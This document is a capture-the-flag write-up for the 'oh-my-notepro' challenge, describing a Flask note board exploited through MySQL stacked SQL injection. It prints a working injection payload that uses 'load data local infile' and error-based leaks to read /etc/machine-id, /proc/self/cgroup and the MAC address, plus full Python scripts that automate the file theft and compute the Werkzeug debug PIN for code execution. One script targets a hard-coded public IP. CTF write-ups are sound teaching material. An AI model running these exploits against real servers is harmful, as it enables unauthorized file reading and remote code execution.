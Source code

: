 # oh-my-notepro-EN

After opening the website and completing the login, it is found that it is a note recording board. Each login user can send a note to their account. After trying to access the abnormal URL, we will find the flask debug information. It intuitively feels that it is a challenge about PIN code. First, we have to find LFI.

Visit route `/view`, debug code is

```
result = db.session.execute(sql, params={"multi":True})
```

It can be seen that there is a possibility of Stack Injection here. It is speculated that MySQL stack injection can read the file and use the error return the  the local file content. We can use `load data local infile`  to read the file information of Web service to construct PIN code. Refer to POC as follows

```
view?note_id=';CREATE TABLE IF NOT EXISTS {tmp_database}(cmd text);Load data local infile '{file}' into table {tmp_database};select * from users where username=1 and (extractvalue(1,concat(0x7e,(select substr((select group_concat(cmd) from {tmp_database}),{str(z)},{str(20)})),0x7e)));
```

Through reading the source code, we can see that the update of Werkzeug has brought changes to the calculation method of PIN code` https://github.com/pallets/werkzeug/commit/617309a7c317ae1ade428de48f5bc4a906c2950f `, using most of the online PIN code calculation methods directly can not calculate the correct PIN code in the current environment. There are two main changes. One is to read `/proc/self/cgroup、/etc/machine-id、/proc/sys/kernel/random/boot_id` these three files, read the contents of one file and return directly. The new version is from `/etc/machine-id、/proc/sys/kernel/random/boot_id`, and then add it with the value in `/proc/self/cgroup`, and use the spliced value to calculate the PIN code; The second change is that the calculation of `h` changes from MD5 to SHA1, so the POC for calculating the pin code also needs to be adjusted accordingly. In addition, after entering the correct PIN code, there is a high probability of 404 and other errors. This problem can be solved by cleaning the website cache and then starting a new traceless session.

The reference POC is as follows:

```
# exp.py

import requests
import re
import string
import random
from pin import solve

def get_content(file, regexp):
    ans = ''
    z = 1
    while True:
        try:
            tmp_database = get_random_id()
            path = f"view?note_id=';CREATE TABLE IF NOT EXISTS {tmp_database}(cmd text);Load data local infile '{file}' into table {tmp_database};select * from users where username=1 and (extractvalue(1,concat(0x7e,(select substr((select group_concat(cmd) from {tmp_database}),{str(z)},{str(20)})),0x7e)));"
            view_url = base_url + path
            r = s.get(url=view_url)
            content = re.findall("'~(.*?)'", r.text)[0]
            if content[0] == '~':
                break
            ans += content[:-1]
            if content[-1] != '~':
                break
            z += 20
            print(ans)
            
        except Exception as e:
            print(e)
            break
    k = re.findall(regexp, ans)[0]
    print('k is: ', k)
    return k

def get_random_id():
    alphabet = list(string.ascii_lowercase + string.digits)
    return ''.join([random.choice(alphabet) for _ in range(32)])

base_url = 'http://localhost:5002/'
base_url = 'http://124.223.208.221:5002/'
s = requests.session()

login_data = {
    'username': "veererere",
    'password': "fefefef"
}
proxies = {
    'http': 'http://127.0.0.1:8080'
}
login_url = base_url + 'login'
r = s.post(url=login_url, data=login_data, proxies=proxies)

cgroup = get_content('/proc/self/cgroup', 'docker/(.*?),')
machine_id = get_content('/etc/machine-id', '(.*)')
eth0 = get_content('/sys/class/net/eth0/address', '(.*)')

eth0 = str(int(eth0.replace(':',''),16))

print("eth0 is: ", eth0)
print("machine_id is: ", machine_id)
print("cgroup is: ", cgroup)
solve('ctf', eth0, machine_id, cgroup)

```

```
# pin.py

import hashlib
from itertools import chain

def solve(username, eth0, machine_id, cgroup):
    probably_public_bits = [
    username,# username ok
    'flask.app', # ok
    'Flask' #ok,
    '/usr/local/lib/python3.8/site-packages/flask/app.py' # ok
]

    private_bits = [
        eth0,# /sys/class/net/eth0/address
        machine_id + cgroup
        # '7cb84391-1303-4564-8eff-ef7571804198327e92627edf30f63fde916e3c3017aea76eeb876265a726270a575d391eeb4a'# machine-id
        # /etc/machine-id + /proc/self/cgroup
    ]

    h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode('utf-8')
        h.update(bit)
    h.update(b'cookiesalt')

    cookie_name = '__wzd' + h.hexdigest()[:20]

    num = None
    if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

    rv =None
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                            for x in range(0, len(num), group_size))
                break
        else:
            rv = num
```

